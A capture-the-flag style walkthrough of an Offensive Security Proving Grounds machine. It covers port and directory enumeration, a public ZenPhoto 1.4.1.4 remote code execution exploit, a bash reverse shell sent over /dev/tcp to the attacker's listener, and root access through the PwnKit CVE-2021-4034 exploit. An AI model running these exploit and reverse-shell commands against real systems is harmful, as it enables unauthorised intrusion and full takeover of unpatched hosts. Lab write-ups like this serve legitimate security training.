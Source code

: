 ```yaml
---
layout: post
author: H4
---
```


This is an Offensive Security proving grounds practice box.

# enumeration

Executing a `nmap` scan to identify the attack surface of the target.

## port scan
```bash
$ nmap -Pn -p- -sV 192.168.126.41
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-13 07:12 EST
Nmap scan report for 192.168.126.41
Host is up (0.044s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 5.3p1 Debian 3ubuntu7 (Ubuntu Linux; protocol 2.0)
23/tcp   open  ipp     CUPS 1.4
80/tcp   open  http    Apache httpd 2.2.14 ((Ubuntu))
3306/tcp open  mysql?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 159.70 seconds
```

## port 22 (`ssh`)
> No weak credentials identified, `root` login is disabled or only private key authentication is enabled.
{: .prompt-danger }

## port 23 (CUPS)
version: `cups 1.4`

## port 80 (web server)

Checking with `gobuster` for hidden resources.
```bash
$ gobuster dir -u http://192.168.126.41/ -w /usr/share/wordlists/dirb/common.txt -t 5 -x php,txt,html -b 404,403                                                        130 ⨯
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.126.41/
[+] Method:                  GET
[+] Threads:                 5
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   403,404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,txt,html
[+] Timeout:                 10s
===============================================================
2022/02/13 07:19:38 Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 75]
/index.html           (Status: 200) [Size: 75]
/index.html           (Status: 200) [Size: 75]
Progress: 15560 / 18460 (84.29%)             [ERROR] 2022/02/13 07:21:25 [!] Get "http://192.168.126.41/server-status": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
/test                 (Status: 301) [Size: 315] [--> http://192.168.126.41/test/]
                                                                                 
===============================================================
2022/02/13 07:21:46 Finished
===============================================================
```
The resource `/test` looks interesting.  

> Inside `/test` there is the application `zenphoto 1.4.1.4` hosted (version number is leaked via `html` source).
{: .prompt-info }

---

# exploitation
## find exploit
```bash
$ searchsploit 1.4.1.4
---------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                |  Path
---------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
ZenPhoto 1.4.1.4 - 'ajax_create_folder.php' Remote Code Execution                                                                             | php/webapps/18083.php
---------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

## exploit `zenphoto 1.4.1.4`
```bash
$ php -f 18083.php 192.168.126.41 /test/

+-----------------------------------------------------------+
| Zenphoto <= 1.4.1.4 Remote Code Execution Exploit by EgiX |
+-----------------------------------------------------------+

zenphoto-shell# whoami
www-data

```

> And we got a shell!
{: .prompt-info }

---

# post exploitation
## get reverse shell
### start listener on attacker machine
```bash
$ nc -lvp 80                                                  
listening on [any] 80 ...
```

### trigger reverse shell
```bash
$ php -f 18083.php 192.168.126.41 /test/

+-----------------------------------------------------------+
| Zenphoto <= 1.4.1.4 Remote Code Execution Exploit by EgiX |
+-----------------------------------------------------------+

zenphoto-shell# whoami
www-data

zenphoto-shell# bash -c 'bash -i >& /dev/tcp/192.168.49.126/80 0>&1'
```

### catch connect from target
```bash
$ nc -lvp 80                                                  
listening on [any] 80 ...
192.168.126.41: inverse host lookup failed: Unknown host
connect to [192.168.49.126] from (UNKNOWN) [192.168.126.41] 55306
bash: no job control in this shell
<p-extensions/tiny_mce/plugins/ajaxfilemanager/inc$ whoami
whoami
www-data
```

## get first flag
```bash
<re/zp-extensions/tiny_mce/plugins/ajaxfilemanager$ cd /home
cd /home
www-data@offsecsrv:/home$ ls
ls
local.txt
www-data@offsecsrv:/home$ cat local.txt
cat local.txt
5******************************e
```

## privilege escalation
> Vulnerable to the `sudo` `LPE` ([exploit](https://github.com/berdav/CVE-2021-4034))
{: .prompt-info }

1. `git clone` exploit code to attacker machine
2. `zip` files
3. upload `zip` file to target machine via own web server (e.g. `python3` web server module) and `wget` on the target
4. execute `make` on the target

```bash
www-data@offsecsrv:/tmp$ make
make
cc -Wall --shared -fPIC -o pwnkit.so pwnkit.c
cc -Wall    cve-2021-4034.c   -o cve-2021-4034
echo "module UTF-8// PWNKIT// pwnkit 1" > gconv-modules
mkdir -p GCONV_PATH=.
cp -f /bin/true GCONV_PATH=./pwnkit.so:.
www-data@offsecsrv:/tmp$ ls
ls
GCONV_PATH=.  README.md      cve-2021-4034.c   gconv-modules  pwnkit.so
LICENSE       a.zip          cve-2021-4034.sh  linpeas.sh     vmware-root
Makefile      cve-2021-4034  dry-run           pwnkit.c
```

Execute compiled `LPE` exploit
```bash
www-data@offsecsrv:/tmp$ ./cve-2021-4034
./cve-2021-4034
# whoami
whoami
root
```

> Root!
{: .prompt-info }

## get second flag
```bash
cd /root
# ls
ls
mysqlpass  proof.txt
# cat proof.txt
cat proof.txt
a******************************2
```

Pwned! <@:-)
